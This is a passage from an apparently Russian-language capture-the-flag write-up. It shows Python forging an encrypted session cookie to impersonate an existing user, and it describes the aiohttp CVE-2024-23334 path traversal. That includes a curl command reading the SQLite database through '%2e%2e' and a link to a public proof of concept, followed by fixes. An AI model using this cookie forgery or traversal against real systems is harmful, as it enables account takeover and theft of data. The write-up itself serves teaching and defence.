 ```python
cookie_to_encrypt = '{"created": 1713180237, "session": {"user": "forged_email@mail.com"}}'
print(encrypt(cookie_to_encrypt))
```
output:
```python
cookie decrypted:
{"created": 1713180237, "session": {"user": "already_existing_email@mail.com"}}

new cookie encrypted:
gAAAAABmHRvhvxeIjMoW1e91WJMUg3XydieHtcn4LFVOUJ-ISLbeKdL1RJTK2F6ydYdHkB2zvNms2FmW6OOQdTw6R8fKKrGHMjYyGFUUv8dAmcbzImrrEHNL2_DhO-bFfMMYJ4O92YGwroFNj1Mam_w07LJfnXKnzQt8kEethhinTYuNjpeGRag=
```

## Уязвимость 4: CVE-2024-23334 aiohttp < 3.9.2.
*(https://nvd.nist.gov/vuln/detail/CVE-2024-23334)*

Рассмотрим файл requirements.txt:
```
aiohttp==3.9.1
aiohttp_session==2.12.0
aiosqlite==0.20.0
cryptography==42.0.1
```
Как можно заметить версия aiohttp явно указана == 3.9.1 (< 3.9.2). Делаем вывод, что версия уязвима, но для эксплуатации LFI есть необходимое условие:  
**"When 'follow_symlinks' is set to True, there is no validation to check if reading a file is within the root directory"**  
Благо, в нашем приложении это значение по умолчанию установлено в True:  
```app.router.add_static('/static/', path='./static', name='static', follow_symlinks=True)```

### Эксплуатация:
1. Готовые PoC скрипты, например https://github.com/jhonnybonny/CVE-2024-23334
2. Руками `curl 'http://127.0.0.1:8080/static/%2e%2e/database.db' --output -`  
![image](https://github.com/bysmaks/OmCTF2024-develop/assets/44548000/223e1226-f273-457f-bfed-e048bd7d5c3d)  
Таким образом, можно просто вычитать файл .db с содержимым sqlite3 базы данных, откуда можно спокойно извлечь все флаги.

### Защита:
1. Обновить версию aiohttp до 3.9.2 или выше.
2. Установить follow_symlinks=False
